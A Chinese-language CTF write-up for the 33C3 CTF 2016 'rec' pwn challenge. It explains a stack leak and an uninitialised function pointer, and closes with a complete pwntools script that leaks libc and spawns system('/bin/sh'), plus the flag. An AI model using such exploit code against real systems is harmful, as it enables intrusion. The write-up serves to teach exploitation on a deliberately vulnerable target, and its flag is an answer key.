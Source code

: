 ```yaml
---
title: '[33C3 CTF 2016] rec 200'
author: bruce30262
tags:
  - pwn
  - 33C3 CTF 2016
categories:
  - write-ups
date: 2016-12-31
layout: post
---
```

## Info  
> Category: pwn
> Point: 200
> Author: bruce30262 @ BambooFox

## Analyzing
32 bit ELF, 保護全開

程式選單:
```
$ ./rec 
Calculators are fun!
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
>
```

整理一下幾個較為重要的 function: 

* Take note: 輸入一個 note
* Read note: 印出剛剛輸入的 note
* Polish: 可以做 `sum` 運算
* Sign: 輸入一個數字，然後印說它是正數還是負數

首先會發現到 Read note 那邊怪怪的:
```
$ ./rec 
Calculators are fun!
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 0
Your note: 123
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 1
Your note:�VXV`�s��`XV     <-- WTF?
```
會印出亂碼是因為 take note 的時候，程式會將一個 stack address 當成 note 的 buffer。之後離開該 function 時，因為 function epilogue 的關係，程式會在該 stack address 上面塞入一些 (有用的) address。因此透過 read note，我們可以 leak 出 stack address 跟 text 段的 base address。

此外程式在 `sign` function 裡面有個邏輯漏洞:
```c
  if ( num <= 0 )
  {
    if ( num < 0 )
      v1 = (void (*)(void))puts_negative;
  }
  else
  {
    v1 = (void (*)(void))puts_positive;
  }
  v1();
```

對於正數和負數 `sign` function 都有做好處理，但是如果我們輸入 `0` 的話呢?

```
$ ./rec 
Calculators are fun!
0 - Take note
1 - Read note
2 - Polish
3 - Infix
4 - Reverse Polish
5 - Sign
6 - Exit
> 5
0
[1]    40091 segmentation fault (core dumped)  ./rec
```
程式 crash 了。這是因為 `sign` 裡面沒有處理 `0` 的情形，導致程式沒有 assign function pointer 給 `v1`，進而讓程式執行到 `v1()` 時產生了 segmentation fault。

## Exploit

首先觀察一下 `sign` function 裡面 assign function pointer 時的組語:
```
0x56555d3b:  mov    eax,DWORD PTR [ebp-0x20]   <-- &v1 = ebp-0x20
0x56555d3e:  call   eax
```
可以看到，如果我們有辦法控制到 `[ebp-0x20]` 的值的話，我們就有把辦法控制到 `eax` 的值，進而控制程式的 control flow。

透過 gdb 我們還發現到 `sign` 這個 function 的 stack frame 比起其他的 function 都還要來的"高"( `ebp` 的值較低 )。因此如果要有辦法控制到 `v1`，我們必須想辦法在其他 function 裡面盡量"拉高" stack frame，進而控制到 `v1` 的值。

經過一連串的 fuzzing，我發現如果使用 Polish 的 `sum` 功能，我們可以藉由不斷的輸入數字來"拉高"程式的 stack frame，**原因是因為程式會不斷地將數字 push 到 stack 上**。透過這樣的方式，我們不但可以控制到 `v1` ( function pointer )，還可以控制到 function 的參數 !

因此總結一下思路:
1. 利用 take note 和 read note 來 leak text 段的 base address
2. 利用 Polish 的 `sum` 功能來控制 `sign` function 裡面的 function pointer 和 function 參數。
3. 我們首先將 function pointer 設成 `puts`，參數設成 `__libc_start_main@got` ( 這題因為是 FULL RELRO 的關係沒有 `.got.plt` )
4. 呼叫 `sign` function，數字輸入 `0`，讓程式執行 `puts(__libc_start_main@got)`
5. 得到 libc 的 base address 之後重複 step 2~4，這次將目標改成執行 `system("/bin/sh")`

Final exploit : ( 這題 libc 的資訊可以透過 [libc-database](https://github.com/niklasb/libc-database) 來獲得 )

```python exp_rec.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time
import numpy

HOST = "78.46.224.74"
PORT = 4127
ELF_PATH = "./rec"

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)

def take_note(note):
    r.sendlineafter("> ", "0")
    r.sendlineafter("note: ", note)

def read_note():
    r.sendlineafter("> ", "1")

def polish_sum(nums):
    r.sendlineafter("> ", "2")
    r.sendlineafter("Operator:", "S")
    for num in nums:
        print "adding:", num
        r.sendlineafter("Operand:", str(num))

    r.sendlineafter("Operand:", ".")

def sign(num):
    r.sendlineafter("> ", "5")
    r.sendline(str(num))

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    take_note("123")
    read_note()

    r.recvuntil("note: ")
    fptr_addr = u32(r.recv(4)) - 0x350 # where the function pointer be loaded
    text_base = u32(r.recv(4)) - 0x6fb
    puts = text_base + 0x520
    lsm_got = text_base + 0x2fe0
    puts_got = text_base + 0x2fd8
    
    log.success("fptr_addr: "+hex(fptr_addr))
    log.success("text_base: "+hex(text_base))

    nums = [i for i in xrange(0x63)] + [puts, lsm_got]
    polish_sum(nums)

    sign(0) # this will call puts(lsm_got)
    lsm_addr = u32(r.recv(4))
    #########################################
    #$ ./dump libc6-i386_2.24-3ubuntu2_amd64
    #offset___libc_start_main = 0x00018180
    #offset_system = 0x0003a8b0
    #offset_str_bin_sh = 0x15cbcf
    #########################################
    system_addr = lsm_addr + 0x22730 
    bin_sh = lsm_addr + 0x144a4f 
	
    log.success("lsm: "+hex(lsm_addr))
    log.success("system: "+hex(system_addr))
    log.success("bin_sh: "+hex(bin_sh))

    nums = [i for i in xrange(0x63)] + [numpy.int32(system_addr), numpy.int32(bin_sh)]
    polish_sum(nums)
    sign(0) # this time will call system("/bin/sh")
    
    r.interactive()
```

flag: `33C3_L0rd_Nikon_would_l3t_u_1n`  